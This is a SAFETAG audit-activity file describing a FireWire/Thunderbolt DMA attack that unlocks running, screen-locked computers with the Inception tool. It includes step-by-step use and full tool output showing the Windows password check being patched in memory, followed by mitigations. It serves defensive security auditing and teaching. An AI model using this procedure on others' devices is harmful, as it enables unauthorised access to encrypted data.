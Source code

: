```yaml
---
title: Firewire Access to Encrypted/Locked computers
approaches:
  - Technical
authors:
  - SAFETAG
remote_options:
  - None
skills_required:
  - CLI
skills_trained: []
summary: >

  Firewire ports and expansion slots can be abused to obtain data that are
  thought to be encrypted


  Any attacker who obtains a running (including sleeping and hibernating!)
  Windows, Mac, or even Linux laptop with a Firewire port, an ExpressCard
  expansion slot, or a Thunderbolt port will be able to read, record or modify
  any sensitive information on the device, even if the screen is “locked” and
  the information is stored on an encrypted volume or in an encrypted folder.
  This applies to threats involving loss, theft and confiscation, but also to
  “checkpoint” scenarios in which the attacker may only have access for a few
  minutes.


  This attack requires physical control of a machine that is not powered off.
  Full details of the scope of the attack are available at
  http://www.breaknenter.org/projects/inception/ .
overview: ''
materials_needed: >

  * A system with a firewire port, a thunderbolt port, or a PCMCIA slot and a
  firewire card. See http://www.breaknenter.org/projects/inception/#Requirements
considerations: ''
walk_through: >

  Firewire ports and expansion slots can be abused to obtain data that are
  thought to be encrypted


  The threat describe in this section is more complex than it needs to be. In
  fact, unencrypted data are vulnerable to any number of simple attacks, the two
  most straightforward being: 1) rebooting the computer from a USB stick CD-ROM
  or DVD containing an alternate operating system, then copying all of the data;
  or 2) removing the hard drive, inserting it into a different machine, then
  copying all of the data. These techniques, which work on nearly any computer,
  even if a strong login password has been set, are effective and widely used,
  but they require extended physical access to the device. A slightly different
  attack is described below, one that only requires physical access for a few
  minutes. It, too, works regardless of login/screen-lock passwords, though only
  devices with Firewire ports or expansion slots (ExpressCard, CardBus, PCMCIA,
  etc.) are vulnerable.


  The steps required to defend against all of these threats is the same: encrypt
  your data using a tool like Microsoft’s BitLocker, Apple’s FileVaule or the
  open-source Truecrypt application. The Firewire attack highlighted here is
  particularly illustrative, however, because it serves as a reminder that
  merely setting up an encrypted volume is not enough. In much the same way that
  a lock does little to protect your home if the door to which it is attached
  remains open, data encryption is rarely effective while you are logged into
  your computer. Even if the screen is locked (which would foil the “reboot” and
  “hard drive removal” attacks described briefly above), an attacker may still
  find a way to access your sensitive data, while the computer is up and
  running, because the decryption key is present in the computer’s memory. (This
  is how large-scale encryption actually works. Information remains encrypted at
  all times, on the storage device where it lives, but you are able to access it
  while you are logged in, or while your encrypted volume is “open,” because
  your computer decrypts and encrypts it on the fly.)

  Walkthrough


  Step 1: First, the attacker would connect her computer to the victim’s using a
  Firewire cable. Either or both machines could be using a true Firewire port or
  a Firewire expansion card. When a Firewire ExpressCard expansion card is
  inserted, Windows automatically installs and configures the necessary drivers,
  even if nobody is logged into the laptop.


  Step 2: Once connected, the attacker simply runs the Inception tool, selects
  the operating system of the target machine and waits a minute or two for the
  attack to complete (depending on the amount of RAM present):


  ```

  $ incept

   _|  _|      _|    _|_|_|  _|_|_|_|  _|_|_|    _|_|_|  _|    _|_|    _|      _|
   _|  _|_|    _|  _|        _|        _|    _|    _|    _|  _|    _|  _|_|    _|
   _|  _|  _|  _|  _|        _|_|_|    _|_|_|      _|    _|  _|    _|  _|  _|  _|
   _|  _|    _|_|  _|        _|        _|          _|    _|  _|    _|  _|    _|_|
   _|  _|      _|    _|_|_|  _|_|_|_|  _|          _|    _|    _|_|    _|      _|

  v.0.2.0 (C) Carsten Maartmann-Moe 2012

  Download: http://breaknenter.org/projects/inception | Twitter: @breaknenter


  [*] FireWire devices on the bus (names may appear blank):

  --------------------------------------------------------------------------------

  [1] Vendor (ID): MICROSOFT CORP. (0x50f2) | Product (ID):  (0x0)

  --------------------------------------------------------------------------------

  [*] Only one device present, device auto-selected as target

  [*] Selected device: MICROSOFT CORP.

  [*] Available targets:

  --------------------------------------------------------------------------------

  [1] Windows 8: msv1_0.dll MsvpPasswordValidate unlock/privilege escalation

  [2] Windows 7: msv1_0.dll MsvpPasswordValidate unlock/privilege escalation

  [3] Windows Vista: msv1_0.dll MsvpPasswordValidate unlock/privilege escalation

  [4] Windows XP: msv1_0.dll MsvpPasswordValidate unlock/privilege escalation

  [5] Mac OS X: DirectoryService/OpenDirectory unlock/privilege escalation

  [6] Ubuntu: libpam unlock/privilege escalation

  --------------------------------------------------------------------------------

  [!] Please select target (or enter 'q' to quit): 2

  [*] Selected target: Windows 7: msv1_0.dll MsvpPasswordValidate
  unlock/privilege escalation

  [*] Initializing bus and enabling SBP-2, please wait  1 seconds or press
  Ctrl+C

  [*] DMA shields should be down by now. Attacking...

  [*] Searching, 1328 MiB so far

  [*] Signature found at 0x8b50c321 (in page # 570636)

  [*] Write-back verified; patching successful

  [*] BRRRRRRRAAAAAWWWWRWRRRMRMRMMRMRMMMMM!!!

  ```


  *In the case of the laptops tested, Inception took approximately two minutes
  to reach the final, somewhat self-congratulatory line shown above. At that
  point, we were able to login using any password. (Entering “asdf” worked just
  fine, and gave us full access to all data on the computer.) Inception works by
  temporarily replacing authentication code using the Firewire’s protocol’s
  direct memory access (DMA). After a reboot, everything is restored to its
  original state.*


  Once again, it is worth noting that successful mitigation of this issue
  requires a combination of technology (data encryption) and some level of
  behavior change (shutting down laptops at the end of the day, when traveling
  and at any time when confiscation, theft, loss or tampering are particularly
  likely.)
recommendations: >


  **Remove FireWire Drivers, completely turn off computer when at risk**


  The easiest protection against this is to completely shut down your computer
  any time there is a chance of confiscation, and to make this a regular
  practice at night and when traveling.


  If possible, the best protection against this is to remove or disable the
  SBP-2 and the FireWire drivers (Windows:
  http://support.microsoft.com/kb/2516445 , Linux:
  http://www.hermann-uwe.de/blog/physical-memory-attacks-via-firewire-dma-part-1-overview-and-mitigation)
  . For Mac, upgrading to the most recent operating system (but at least
  10.7.2/Lion!).
organization_size_under: 25
time_required_minutes: 30
---
```


